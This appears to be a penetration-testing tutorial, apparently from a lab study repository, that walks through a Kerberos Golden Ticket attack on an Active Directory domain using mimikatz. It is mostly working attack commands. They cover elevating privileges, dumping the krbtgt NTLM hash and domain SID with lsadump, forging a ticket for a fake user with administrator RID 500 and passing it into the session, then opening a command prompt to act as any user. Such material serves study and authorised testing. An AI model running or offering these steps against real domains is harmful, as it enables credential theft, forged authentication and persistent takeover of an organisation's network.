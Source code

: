 
## **Overview**

- [ ] **What is it ?**
	- When we compromise the krbtgt account, we own the domain
	- We can request access to any resource or system on the domain
	- Golden tickets == Complete access to every machine

- [ ] We can utilize `mimikatz` to obtain the information necessary to perform this attack
- [ ] There are a couple of conditions need to be met 
	- We need the krbtgt NTLM hash
	- We also need the domain SID 
- [ ] Once we have this we can generate our golden ticket and once it is generated we can use an attack call **Pass-the-Ticket** in other to utilize this anywhere
- [ ] We can think of a **Golden Ticket** attack as **Persistence**

## **Attack Scenario**

First of all make sure you transfer `mimikatz` to your domain controller then we can start it through the **Command Prompt**

```powershell
# start mimikatz
C:\Users\Administrator\Downloads>mimikatz.exe

# Elevate to highest integrity level
mimikatz # privilege::debug
mimikatz # token::elevate
```


### **Dumping the SID and NTLM hash**

```powershell
# Dump the sid and NTLM hash of the krbtgt user
mimikatz # lsadump::lsa /inject /name:krbtgt
```


#### **Example**

![](https://i.imgur.com/4XcWt6w.png)

**Note :** Copy both the SID and NTLM hash to your note pad on your DC



### **Generating Tickets**

```powershell
# /User : fake user account
# /domain : domain controller
# /sid : the sid we saved to note pad
# /krbtgt : the NTLM hash 
# /id : administrator RID for advanced privileges
# /ptt : pass-the-ticket option

mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
```

#### **Example**


![](https://i.imgur.com/qgE2uyK.png)


### **Executing Command remotely**
Once you have the prompt as shown i the previous example do this :

```powershell
mimikatz # misc::cmd
```

You should see a new command prompt we can execute commands as any user from here.


#### **Example**



![](https://i.imgur.com/2DBD485.png)

